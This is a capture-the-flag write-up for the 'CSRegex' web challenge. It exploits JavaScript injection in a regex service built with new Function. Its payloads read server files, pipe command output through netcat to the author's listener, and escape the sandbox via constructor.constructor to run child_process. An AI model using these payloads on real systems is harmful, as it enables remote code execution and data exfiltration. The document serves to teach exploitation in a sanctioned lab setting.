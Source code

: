 # CSRegex

Points: 100

I looked at the URL first. The format was:
```
GET http://chal.cybersecurityrumble.de:9876/api/regex/<pattern>/<flags>/<input>
```

Each parameter was Base64 encoded. Based on the information from the page, it
looks like `eval()` is being used. Eventually I found this worked:
```
' + process.cwd() + '
```

Unfortunately, doing the usual `require('fs')` trick does not work because it
says `require` is not defined. Not sure why.

After trying other things for a few hours, I eventually found this:
```
'+Object.getOwnPropertyNames(this)+'
```

This gave me:
```json
{ "result": "simpleFs" }
```

Proceeding on this thread:
```
'+Object.getOwnPropertyNames(this.simpleFs)+'
-> { "result": "length,prototype,exists,readFile,readFileSync,writeFile,writeFileSync,appendFile,appendFileSync,name" }

'+this.simpleFs+'
-> { "result": "class SimpleFs {\n static exists(path) {\n return new Promise((res, rej) => {\n fs.stat(path, (err, stats) => {\n if (err) return rej(err);\n if (!stats.isFile()) return rej('Not a file');\n return res();\n });\n });\n }\n\n static readFile(path) {\n return new Promise((res, rej) => {\n if (!fs.existsSync(path)) return rej('File not found');\n fs.readFile(path, { encoding: 'utf-8' }, (err, data) => {\n if (err) return rej(err);\n return res(data);\n });\n });\n }\n\n static readFileSync(path) {\n if (!fs.existsSync(path)) return rej('File not found');\n try {\n return fs.readFileSync(path, { encoding: 'utf-8' });\n } catch (ex) {\n return false;\n }\n }\n\n static writeFile(path, contents) {\n return new Promise((res, rej) => {\n if (fs.existsSync(path)) return rej('File already exists');\n fs.writeFile(path, contents, { encoding: 'utf-8' }, (err) => {\n if (err) return rej(err);\n return res();\n })\n });\n }\n\n static writeFileSync(path, contents) {\n if (fs.existsSync(path)) return rej('File already exists');\n try {\n fs.writeFileSync(path, contents, { encoding: 'utf-8' });\n return true;\n } catch (ex) {\n return false;\n }\n }\n\n static appendFile(path, contents) {\n return new Promise((res, rej) => {\n if (!fs.existsSync(path)) return rej('File not found');\n fs.appendFile(path, contents, { encoding: 'utf-8' }, (err) => {\n if (err) return rej(err);\n return res();\n });\n });\n }\n\n static appendFileSync(path, contents) {\n if (!fs.existsSync(path)) return rej('File not found');\n try {\n fs.appendFileSync(path, contents, { encoding: 'utf-8' });\n return true;\n } catch (ex) {\n return false;\n }\n }\n}" }

'+process.argv+'
-> { "result": "/usr/bin/node,/app/index.js" }

'+this.simpleFs.readFileSync('/app/index.js')+'
-> { "result": "var express = require('express');\nvar cors = require('cors');\n\nvar app = express();\nvar api = require('./api')\n\napp.use(cors());\n\nprocess.on('unhandledRejection', (reason, promise) => {\n console.log('Unhandled Rejection at:', reason.stack || reason)\n})\n\n\nprocess.on('uncaughtException', function (err) {\n console.error(err.stack);\n});\n\napp.use((req, res, next) => {\n res.header('Server', 'dunno');\n res.header('X-Powered-By', 'love <3');\n res.header('Level', (9000 + Math.random() * 1000).toFixed(0));\n next();\n});\n\n//Static\napp.use(express.static('dist'));\n\n//rest\napp.use('/api', api);\n\n//Troll\napp.use('/admin', function (req, res) {\n res.status(401).send();\n});\napp.use('/phpMyAdmin', function (req, res) {\n res.status(402).send();\n});\napp.use('/test.php', function (req, res) {\n res.status(403).send();\n});\n\n//Custom 404\napp.get('*', function (req, res) {\n res.status(404).send('notfound.jpeg');\n});\n\napp.listen(8080, () => {\n console.log(`Listening...`)\n});" }
```

Note this line: `var api = require('./api')`
```
'+this.simpleFs.readFileSync('/app/index.js')+'
-> { "result": "var express = require('express');\nvar router = express.Router();\nvar RegexEr = require('./regexer')\n\nrouter.get('/regex/:pattern/:flags/:input', (req, res) => {\n var params = {\n pattern: req.params.pattern,\n input: req.params.input,\n flags: req.params.flags\n };\n try {\n params.pattern = Buffer.from(req.params.pattern, 'base64').toString();\n params.input = Buffer.from(req.params.input, 'base64').toString().replace(/\\n/gm, \"\").trim();\n params.flags = Buffer.from(req.params.flags, 'base64').toString();\n RegexEr.process(params.pattern, params.flags, params.input)\n .then((result) => res.status(200).send({result: result}))\n .catch((err) => res.status(400).send({ error: err.message }));\n\n } catch (ex) {\n console.error(ex);\n res.status(400).send(JSON.stringify(ex));\n }\n\n});\n\nmodule.exports = router;" }

'+this.simpleFs.readFileSync('/app/regexer.js')+'
-> { "result": "const sfs = require('./simple-fs');\n\nconst LOGFILE = 'requests.log';\n\nclass RegexEr {\n constructor() {\n this.simpleFs = sfs;\n }\n process(pattern, flags, input) {\n return new Promise((res, rej) => {\n try {\n var str = `var _result = '${input}'.match(/${pattern}/${flags}); return _result;`;\n this.addLogLine(LOGFILE, str + '\\n');\n console.log(str);\n var fun = new Function(str);\n var result = fun.call(this);\n res(result);\n } catch (ex) {\n rej(ex);\n }\n });\n }\n addLogLine(logFile, content) {\n this.simpleFs.appendFile(logFile, content);\n }\n}\n\nconst REGEXER_INSTANCE = new RegexEr();\n\nmodule.exports = REGEXER_INSTANCE;" }

'+this.simpleFs.readFileSync('/app/leftover.js')+'
-> { "result": "class Utility {\n require(resource) {\n return new Promise((res, rej)=>{\n try {\n var module = require(resource);\n return res(module); \n } catch(ex) {\n return rej(ex);\n }\n });\n }\n isRunningOnWindows() {\n return process.platform.indexOf('win' === 0);\n }\n getUrlHost(url) {\n try{\n return new URL(url).hostname;\n } catch(ex){\n return null;\n }\n }\n}\n\nLEGACY_UTILS = new Utility();\n\nmodule.exports = LEGACY_UTILS;" }
```

The `require` function looks very interesting. If I can `require` the `fs`
module and call `readdirSync`, then I could figure out where the flag is.
Unfortunately, it returns a Promise object. I spent a few hours trying to figure
out how to resolve a promise synchronously and I eventually realized that it
was probably impossible. JS is stupid.

Finally, I tried to an exploit that did not require synchronous execution.
Instead of trying to make it return the string I wanted in the request, I would
make it run `ls` and send the output to a socket on my computer.

So next I made my router forward port 4445. Next I set up a listener on my
computer:
```
$ nc -lvp 4445
```

Then using my public IP, I used the following payload:
```
' + LEGACY_UTILS.require('child_process').then((cp) => { cp.exec ('ls | nc <my_public_ip> 4445') }, null) + '
```

I got output on my listener!
```
$ nc -lvp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 193.10.78.34.bc.googleusercontent.com 44997 received!
api.js
csregex
dist
dockerfile
index.js
leftover.js
node_modules
package-lock.json
package.json
regexer.js
requests.log
simple-fs.js
```

Finally:
```
'+this.simpleFs.readFileSync('/app/dockerfile')+'
-> { "result": "from mhart/alpine-node:12\nWORKDIR /app\nCOPY . .\nRUN apk update\nRUN apk upgrade\nRUN apk add bash\nRUN apk add curl\nRUN npm install\nRUN chown root:root .\nRUN chmod -R 755 .\nRUN adduser -D -g '' server\nRUN touch requests.log\nRUN chown server:server requests.log\nRUN chmod +s /usr/bin/curl\nRUN echo 'CSR{r363x_15_fun_r363x_15_l0v3}' > /root/flaggerino_flaggeroni.toxt\nRUN chmod 640 /root/flaggerino_flaggeroni.toxt\nRUN chmod 744 /root\nUSER server\nEXPOSE 8080\nCMD [ \"node\", \"index.js\"]null" }
```

---

Note: somehow this person solved it
[like this](https://gist.github.com/po6ix/b5885264ee0128e8f14bc293396081b5).
I don't understand the JavaScript here but it works:
```
'+constructor.constructor("return process")().mainModule.require("child_process").execSync('cat * | grep CSR')+'
```
